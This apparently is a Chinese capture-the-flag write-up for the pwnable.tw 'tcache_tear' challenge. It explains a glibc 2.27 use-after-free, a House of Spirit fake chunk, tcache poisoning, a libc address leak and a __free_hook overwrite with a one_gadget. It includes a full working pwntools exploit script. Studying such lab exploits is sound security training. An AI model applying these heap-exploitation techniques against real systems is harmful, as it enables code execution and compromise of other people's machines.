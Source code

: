 ```yaml
---
layout: post
title: pwnable.tw tcache_tear
date: 2023-02-01 15:16:30
tags: pwnable.tw
---
```


## 程序分析

GLIBC 2.27 64bits，关闭了 PIE。
菜单题，提供了 alloc、free、info、exit 四个功能。

1. 通过 alloc，用户可以自由申请小于 0xff（不含 chunk header）大小的区块并向其中填入 size-0x16 个任意字符（奇怪的限制）。整个程序只有一个放指针的槽位，是一个全局符号，记为gptr。
2. 通过 free，用户可以释放全局符号 gptr 指向的空间。但程序使用局部变量作了限制，程序最多只能 free 8 次。**漏洞：free 完没有清空指针**
3. 通过 info，用户可以用 write 打印全局符号 name 处的值。这个符号本没有名字，但程序一开始会让我们输入一个 name 存储在这个符号的位置，所以就叫他 name。
4. 通过 exit，用户可以退出程序。

程序没有什么自带的后门函数，orw 的三个函数都不齐。

## 思路

结合分析可以看出，必须要泄露 libc 基址才能搞事情。所以需要在 2.27 的版本下，想办法绕过 tcache 让 chunk 进入 unsorted bin 来获取 libc 地址。
程序的唯一打印功能是打印固定地址处的内容，所以还需要用 house of spirit 的思想在 name 处构造假区块。

综上，攻击步骤有如下几步：
1. 构造 fake chunk 头部
2. 构造 fake chunk 尾部，保证通过 free 的检查
3. 释放 fake chunk 进入 unsorted bin
4. 使用 info 功能泄露 libc 基址
5. 覆写 `__free_hook` 为 one_gadget

## 具体实现

### 构造 fake chunk

为了完成 House of Spirit 攻击，我们需要精心构造 fake chunk。
首先，为了不被分进 fastbins，chunksize 需要>=0x90，这里就使用 0x90。
其次，为了不与别的 chunk 合并，首先低位的 chunk 通过 0x91 的 1 来解决；高位的 chunk 就需要再构造两个 fake chunk，如下图所示：

```
├──────┬──────┤  │
│      │0x21  │  │
├──────┴──────┤ ─┼─ Name+0xb0
│             │  │
├──────┬──────┤  │
│      │0x21  │  │
├──────┴──────┤ ─┼─ Name+0x90
│             │  │
│             │  │ Fake Chunk
│             │  │
│             │  │ beyond fastbin
│             │  │
│             │  │
│             │  │
│             │  │
│             │  │
├──────┬──────┤  │
│      │0x91  │  │
├──────┴──────┤ ─┼─ Name
```

fake chunk 的头部可以程序开始的时候输入 Name 0x91 来完成。高位的两个 fake chunk 就需要使用 tcache dub 然后 poisoning 来完成了，代码如下：

```python
# fake chunk header
name = b'a'*0x8 + pack(0x91)
io.send(name)

# fake chunk tail
alloc(0x40, b'\n')
free()
free()
alloc(0x40, pack(0x6020f0))     # 0x602060 + 0x90
alloc(0x40, b'\n')
alloc(0x40, pack(0) + pack(0x21) + pack(0)*3 + pack(0x21))
```

### 泄露 libc

构造完了 fake chunk，我们需要通过释放它来达到目的。为此我们有两种方法：一种是覆写全局 gp 为 fake chunk 地址；另一种是 poisoning tcache 把 fake chunk 取出，这里我们随便地采用后者。

```python
# alloc fake chunk
alloc(0x80, b'\n')
free()
free()
alloc(0x80, pack(0x602070))     # 0x602060 + 0x10
alloc(0x80, b'\n')
alloc(0x80, b"I'm a fake chunk")
```

然后就可以释放并泄露 libc 基址了：

```python
# free fake chunk into unsorted bin
free()

# leak libc's base address
info()
libc_addr = unpack(io.recvuntil(b'\x7f')[-6:]+b'\0\0')-0x3ebca0
success("libc :" + hex(libc_addr))
```

### 覆写 hook

有了 libc 基址，再加上 tcache 的任意写能力，就可以把 hook 覆写为 one_gadget 来完成攻击。脚本如下：

```python
free_hook = libc_addr + libc.symbols["__free_hook"]
one_gadget = libc_addr + 0x4f322 # 0x10a38c

alloc(0x60, b'\n')
free()
free()
alloc(0x60, pack(free_hook))
alloc(0x60, b'\n')
alloc(0x60, pack(one_gadget))

free()
```

## 完整脚本

```python
#!/usr/bin/python3
from pwn import *
from LibcSearcher import *
context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

filename = "./pwn"
io = process([filename])
# io = remote("chall.pwnable.tw", 10207)
elf = ELF(filename)

libc_name = "./libc.so"
libc = ELF(libc_name)

def alloc(size, content):
    io.recvuntil(b"choice :")
    io.sendline(b"1")
    io.recvuntil(b"Size:")
    io.sendline(str(size).encode('ascii'))
    io.recvuntil(b"Data:")
    io.send(content)

def free():
    io.recvuntil(b"choice :")
    io.sendline(b"2")

def info():
    io.recvuntil(b"choice :")
    io.sendline(b"3")
    
def exit():
    io.recvuntil(b"choice :")
    io.sendline(b"4")

# --- stage 1 : leak libc_addr ---

# fake chunk header
name = b'a'*0x8 + pack(0x91)
io.send(name)

# fake chunk tail
alloc(0x40, b'\n')
free()
free()
alloc(0x40, pack(0x6020f0))     # 0x602060 + 0x90
alloc(0x40, b'\n')
alloc(0x40, pack(0) + pack(0x21) + pack(0)*3 + pack(0x21))

# alloc fake chunk
alloc(0x80, b'\n')
free()
free()
alloc(0x80, pack(0x602070))     # 0x602060 + 0x10
alloc(0x80, b'\n')
alloc(0x80, b'haha')

# free fake chunk into unsorted bin
free()

# leak libc's base address
info()
libc_addr = unpack(io.recvuntil(b'\x7f')[-6:]+b'\0\0')-0x3ebca0
success("libc :" + hex(libc_addr))

# --- stage 2 : overwrite hook ---

free_hook = libc_addr + libc.symbols["__free_hook"]
one_gadget = libc_addr + 0x4f322 # 0x10a38c

alloc(0x60, b'\n')
free()
free()
alloc(0x60, pack(free_hook))
alloc(0x60, b'\n')
alloc(0x60, pack(one_gadget))

# --- stage 3 : pwn ---

free()
io.interactive()
```
